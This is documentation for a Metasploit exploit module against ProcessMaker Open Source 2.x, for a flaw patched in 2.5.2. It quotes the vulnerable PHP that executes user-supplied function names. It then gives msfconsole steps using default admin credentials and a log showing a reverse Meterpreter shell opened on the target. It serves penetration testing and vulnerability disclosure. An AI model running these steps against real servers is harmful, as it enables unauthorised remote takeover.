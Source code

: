 ## Description

  This module exploits a PHP code execution vulnerability in the default *neoclassic* skin for [ProcessMaker Open Source](http://www.processmaker.com/) which allows any authenticated user to execute PHP code. The vulnerable skin is installed by default in version 2.x prior to 2.5.2 and cannot be removed via the web interface.


## Vulnerable Application

  ProcessMaker is an open source, workflow management software suite, which includes tools to automate your workflow, design forms, create documents, assign roles and users, create routing rules, and map an individual process quickly and easily. It's relatively lightweight and doesn't require any kind of installation on the client computer.

  This module has been tested successfully on ProcessMaker Open Source versions:

  * 2.5.1 on Windows XP SP3
  * 2.5.0 on Windows XP SP3
  * 2.0.45 on Debian Linux
  * 2.0.23 on Windows XP SP3

  The vulnerability was patched in version 2.5.2.

  Source and Installers:

  * [ProcessMaker Open Source 2.0.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.0/)
  * [ProcessMaker Open Source 2.5.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.5/)


## Technical Details

  Several files within the default *neoclassic* skin allow authenticated users to supply a PHP function in the `action` parameter and arguments for the aforementioned function in the `params` parameter. The application calls the supplied function name with the supplied parameters resulting in execution of arbitrary user supplied PHP code.

  The relevant source code for the affected files is shown below.

  **appFolder/appFolderAjax.php**

  ```php
  if (($_REQUEST['action']) != 'rename') {
      $functionName = $_REQUEST ['action'];
      $functionParams = isset ($_REQUEST ['params']) ? $_REQUEST ['params'] : array ();
      $functionName ($functionParams);
  ```

  **cases/casesStartPage_Ajax.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```

  **cases/cases_SchedulerGetPlugins.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_exec`
  3. Do: `set username [USER]`
  4. Do: `set password [PASS]`
  5. Do: `set workspace [WORKSPACE]`
  6. Do: `set rhost [IP]`
  7. Do: `run`
  8. You should get a session


## Options

### Username

  The username for a ProcessMaker user (default: `admin`).

### Password

  The password for the ProcessMaker user (default: `admin`).

### Workspace

  The ProcessMaker workspace for which the specified user has access (default: `workflow`).


## Scenarios

  ```
  msf exploit(processmaker_exec) > check
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending check
  [+] The target is vulnerable.

  msf exploit(processmaker_exec) > exploit
  [*] Started reverse handler on 192.168.172.1:4444
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending payload 'V7hd5EevO9Ho.php' (1795 bytes)
  [+] 192.168.172.135:80 - Payload sent successfully
  [*] 192.168.172.135:80 - Retrieving file 'V7hd5EevO9Ho.php'
  [*] Sending stage (39195 bytes) to 192.168.172.135
  [*] Meterpreter session 3 opened (192.168.172.1:4444 -> 192.168.172.135:32789) at 2013-10-29 09:53:08 -0500
  [+] Deleted V7hd5EevO9Ho.php

  ^C[-] Exploit failed: Interrupt

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : processmaker
  OS          : Linux processmaker 3.2.0-4-amd64 #1 SMP Debian 3.2.51-1 x86_64
  Meterpreter : php/php
  meterpreter > exit
  ```

